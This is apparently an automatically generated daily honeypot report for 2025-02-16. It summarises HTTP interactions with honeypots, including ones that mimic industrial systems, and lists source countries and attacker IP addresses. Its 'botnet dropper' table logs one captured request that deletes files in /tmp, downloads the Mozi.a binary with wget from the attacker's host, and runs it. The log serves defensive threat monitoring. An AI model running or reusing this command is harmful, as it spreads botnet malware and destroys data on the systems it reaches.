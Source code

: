 ```yaml
---
title: "Report: 2025-02-16 "
date: 2025-02-16
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-16
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |
| FR               | Germany            |
| FR               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                         |
|:----------------|:----------------------------------------------------------------------------------------------------------------|
| 110.166.215.211 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://110.166.215.211:38160/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   745 | 170.39.218.109  |
|   1 |                   345 | 185.93.89.118   |
|   2 |                    88 | 80.65.211.20    |
|   3 |                    70 | 193.68.89.10    |
|   4 |                    58 | 92.255.57.58    |
|   5 |                    55 | 195.178.110.163 |
|   6 |                    46 | 193.68.89.51    |
|   7 |                    45 | 165.154.227.138 |
|   8 |                    44 | 95.214.55.123   |
|   9 |                    32 | 78.153.140.179  |
|  10 |                    30 | 141.255.166.90  |
|  11 |                    27 | 95.214.55.132   |